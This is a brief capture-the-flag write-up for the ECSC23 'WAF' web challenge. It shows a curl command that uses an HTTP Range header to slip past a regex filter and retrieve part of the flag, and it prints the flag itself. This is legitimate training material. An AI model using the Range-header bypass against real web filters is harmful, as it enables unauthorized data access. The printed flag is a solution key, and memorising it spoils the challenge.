 # [web - WAF](https://hack.cert.pl/challenge/waf)

Since the regex pattern is `ecsc23{\\w+}` we can simply set bytes range to remove known part of the flag:
```
curl "https://waf.ecsc23.hack.cert.pl/flag" -H "range: bytes=6-45"
```

### Flag
```
ecsc23{waf_stands_for_very_accessible_flag}
```

### References
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Range
